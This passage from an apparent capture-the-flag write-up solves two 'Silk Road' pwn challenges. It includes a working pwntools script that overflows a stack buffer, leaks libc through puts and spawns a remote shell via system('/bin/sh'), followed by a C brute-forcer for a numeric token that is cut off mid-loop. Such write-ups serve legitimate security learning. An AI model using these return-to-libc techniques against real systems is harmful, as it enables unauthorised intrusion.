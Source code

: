 Nickname is not hard to get so I will skip it. Then there is a stack-overflow, which is easy.

```python
from pwn import *

g_local=0
p = ELF("./silkroad.elf")
context(log_level='debug', arch='amd64')
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
if g_local:
	sh = process("./silkroad.elf")
	gdb.attach(sh)
else:
	sh = remote("82.196.10.106", 58399)

def prepare():
	sh.recvuntil("ID: ")
	sh.send("790317143")
	sh.recvuntil("nick: ")
	sh.send("DreadPirateRobertsXiz\x00")
	sh.recvuntil("delete evidince and run Silkroad!\n")
prepare()
sh.sendline("A" * (64+8) + p64(0x401bab) + p64(p.got["puts"]) + p64(p.plt["puts"]) + p64(0x401AFD))

leak = sh.recvuntil('\n')
libc_addr = u64(leak[:-1] + '\x00\x00') - e.symbols["puts"]
print hex(libc_addr)

prepare()
sh.sendline("A" * (64+8) + p64(0x401B4B) + p64(0x401bab) + \
	p64(libc_addr + next(e.search("/bin/sh"))) + p64(libc_addr + e.symbols["system"]) + p64(0))

sh.interactive()
```

## 171 Pwn / Silk Road II

Since many `strtol` is used, so I would guess this token is also numeric and it is also can be brute-force cracked, but this time I will load the ELF executable as a shared library and call the verification function directly.

```c
#include <stdio.h>
#include <dlfcn.h>
#include <memory.h>
typedef int (*func_t)(char *);
char buf[0x100];
char key[0x100];

//to clear the stack of verification function, 
//because use of `strncpy` will cause uninitialized variable access (no null terminate)
//which causes unexpected results if `strcat` is called to that string later
void clear_stack()
{
	char buf[0x1000];
	memset(buf, 0, sizeof(buf));
}

int main(int argc, char const *argv[])
{
	char* addr = *(char**)dlopen("./silkroad_2.elf", RTLD_NOW | RTLD_GLOBAL);
	func_t f = (func_t)(addr + 0x1C06);
	for (int i = 0; i < 0x3b9aca00; ++i)
	{
		sprintf(buf, "%.9d", i);
```